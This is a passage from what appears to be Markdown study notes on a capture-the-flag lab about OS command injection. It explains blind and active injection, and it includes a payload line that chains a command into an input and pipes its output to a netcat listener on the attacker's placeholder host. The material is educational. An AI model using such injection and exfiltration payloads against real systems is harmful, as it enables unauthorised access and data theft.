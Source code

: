     ![customized user NOT found](./img/T3_5_name_user_not_found_error.png)

    Solution : error

* Bypassing the Blind Injection with netcat :
  * In case the user has no write permission on the web server, there is an alternative solution by using __netcat__
  * Pipe the output of command to a nc listener, eg.

    ```Bash
        root; ls -la | nc {VPN_IP} {PORT}
    ```

    * The command above will send the output of ```ls -la``` to your netcat listener
    * Futher explain of this method can be found [here](https://howto.lintel.in/listen-arbitrary-port-print-data-coming-using-netcat/)

## [Task 3] Active Command Injection

* It is a reverse of Blind Command Injection, which will _return the response to the user_
* The response can be made visible through several HTML elements

    ![Example PHP code for Active Command Injection](./img/code_vulnerable_in_active_os_command_injection.png)
